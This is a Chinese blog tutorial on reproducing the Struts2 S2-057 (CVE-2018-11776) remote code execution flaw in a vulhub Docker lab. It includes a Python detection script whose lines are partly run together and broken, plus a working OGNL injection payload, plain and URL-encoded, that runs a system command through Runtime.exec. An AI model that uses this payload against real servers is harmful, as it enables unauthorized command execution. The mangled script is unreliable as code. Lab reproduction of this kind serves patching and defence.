




# Struts2-057 远程代码执行漏洞(s2-057/CVE-2018-11776)复现 - ctrl_TT 豆 - 博客园

> 原文：[`www.cnblogs.com/-chenxs/p/11386437.html`](https://www.cnblogs.com/-chenxs/p/11386437.html)

### 参考了大佬的链接：[`github.com/jas502n/St2-057`](https://github.com/jas502n/St2-057)    

## 00x01 前言

 Apache Struts 是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级 Java Web 应用的开源 MVC 框架，主要提供两个版本框架产品：   Struts 1 和 Struts 2。 Struts2 是一个基于 MVC 设计模式的 Web 应用框架，它本质上相当于一个 servlet，在 MVC 设计模式中，Struts2 作为控制器(Controller)来建立模型与视图的数据交互。Struts 2 是 Struts 的下一代产品，是在 struts 1 和 WebWork 的技术基础上进行了合并的全新的 Struts 2 框架。

## 00x02 漏洞描述

定义 XML 配置时如果没有设置 namespace 的值，并且上层动作配置中并没有设置或使用通配符 namespace 时，可能会导致远程代码执行漏洞的发生。同样也可能因为 url 标签没有设置 value 和 action 的值，并且上层动作并没有设置或使用通配符 namespace，从而导致远程代码执行漏洞的发生。

## 00x03 影响版本

Struts 2.3 - Struts 2.3.34

Struts 2.5 - Struts 2.5.16

## 00x04 漏洞验证

在线验证：[`0day.websaas.com.cn/`](http://0day.websaas.com.cn/)

本地验证：[`github.com/ym2011/POC-EXP/tree/master/Struts2/S2-057`](https://github.com/ym2011/POC-EXP/tree/master/Struts2/S2-057)

附上一个大佬的 poc

```
import sys
import requests

url = sys.argv[1]
url_list = [i for i in url.split("/") if i != '']

payload = "${(65535+521)}" payload = "/" + payload + "/" num = 0
for str in url_list:
    num += 1
    if num == 1:
        nurl = str continue elif num == 2:
        nurl = nurl + "//" + str continue elif num == len(url_list):
        nurl = nurl + payload + str continue
    else:
        nurl = nurl + "/" + str continue

try:
    r = requests.head(nurl, stream=True).headers["Location"]
except:
    print "不存在 ST2-057 漏洞！" exit() if r.find("66056") != -1:
    print "存在 ST2-057 漏洞！"
else:
    print "不存在 ST2-057 漏洞！"
```

## 00x05 安装本地环境

首先要安装 docker 部署 vulhub

我用的是 kali2018 的虚拟机安装的

更新数据

```
apt-get update
```

安装 docker

```
apt-get install docker.io
```

查看版本

```
docker -v
```

尝试运行一下

```
docker images
```


出现镜像列表则说明成功安装，或者再进行验证

```
docker run hello-world
```

如果出现


不要慌，服务器正从 Docker Hub 获取到最新的 Hello World 镜像，下载到本地，因此只需等待即可。


出现了上图字样表示安装成功，如果没用再次输入 docker run hello-world，回车就能验证了。
接下来就需要安装 vulhub 了，在这之前，需要先安装 pip

```
wget https://bootstrap.pypa.io/get-pip.py
```

安装完成之后尝试输入 pip，出现选项即说明安装成功，接下来就可以使用 pip 来安装 docker-compose

```
pip install docker-compose
```

直接从 github 上将 vulhub 拿下来，由于某些原因，直接下载 vulhub 会报错，所以建议直接从 github 上下载，当然也可以直接下载。

```
git clone https://github.com/vulhub/vulhub
```

不出意外的话，下载成功以后查看目录下会出现 vulhub，这个时候就可以进去看看里面有些什么，当然里面所包含靶站的还是比较多的，都可以复现一些比较经典的漏洞。



这里重点介绍下 struts2-057 漏洞吧，进入 struts2 目录下，找到 struts2-057，进去。


直接使用 docker-compose 将镜像安装起来。

```
docker-compose up -d
```

报错了，看 version 都报错


说没用 ssl_match 模块，应该是没有下载完整，那么我们直接在网上去下载最新版：[`github.com/docker/compose/releases/tag/1.14.0-rc2`](https://github.com/docker/compose/releases/tag/1.14.0-rc2)，拉到最下面，下载 linux 版本的。


然后将文件上传到 /usr/local/bin/ 文件夹下，然后将其重命名为 docker-compose，增加可执行：chmod +x /usr/local/bin/docker-compose  ，然后再运行查看版本


现在进入 struts2-057 目录然后执行  docker-compose up -d   命令，下载有点儿慢。


看下 docker 里面镜像库，如果出现 struts2 镜像则说明安装成功。

 

 查看 psid，复制 id 后直接启用环境。

```
 docker exec -i -t <id> /bin/bash
```

 


环境就搭建起来了，访问一下 ip:port/struts2-showcase/



##  00x06 漏洞复现

将 url 换成 ip:port[/struts2-showcase/${(111+111)}/actionChain1.action](http://www.canyouseeme.cc:8080/struts2-showcase/$%7B(111+111)%7D/actionChain1.action)

 然后访问

最后可以看到已经变成了 ip:port/struts2-showcase/222/register2.action

说明存在 s2-057 漏洞

 

中间的[${(111+111)}](http://www.canyouseeme.cc:8080/struts2-showcase/$%7B(111+111)%7D/actionChain1.action)是命令执行，得到执行结果返回在后面的 url 呈现的页面中

将${(111+111)} 替换用代码执行编写成命令执行的 exp

```
${(#_memberAccess["allowStaticMethodAccess"]=true,#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),#b=new java.io.InputStreamReader(#a),#c=new  java.io.BufferedReader(#b),#d=new char[51020],#c.read(#d),#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),#jas502n.println(#d ),#jas502n.close())}
```

拆分：

```
${
(
#_memberAccess["allowStaticMethodAccess"]=true,
#a=@java.lang.Runtime@getRuntime().exec('calc').getInputStream(),
#b=new java.io.InputStreamReader(#a),
#c=new java.io.BufferedReader(#b),
#d=new char[51020],
#c.read(#d),
#jas502n= @org.apache.struts2.ServletActionContext@getResponse().getWriter(),
#jas502n.println(#d),
#jas502n.close())
}
```

中间的标红的一段代码中间的 exec(‘’)函数里面可执行任意系统命令，这里是执行的 calc 调出计算器。

因此访问[`ip:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action`](http://www.canyouseeme.cc:8080/struts2-showcase/%24%7b(%23_memberAccess%5b%22allowStaticMethodAccess%22%5d%3dtrue%2c%23a%3d%40java.lang.Runtime%40getRuntime().exec(%27calc%27).getInputStream()%2c%23b%3dnew+java.io.InputStreamReader(%23a)%2c%23c%3dnew++java.io.BufferedReader(%23b)%2c%23d%3dnew+char%5b51020%5d%2c%23c.read(%23d)%2c%23jas502n%3d+%40org.apache.struts2.ServletActionContext%40getResponse().getWriter()%2c%23jas502n.println(%23d+)%2c%23jas502n.close())%7d/actionChain1.action)



## 00x7 漏洞修复

 官方提供的临时解决方案：当上层动作配置中没有设置或使用通配符 namespace 时，验证所有 XML 配置中的 namespace，同时在 JSP 中验证所有 url 标签的 value 和 action。

建议升级版本。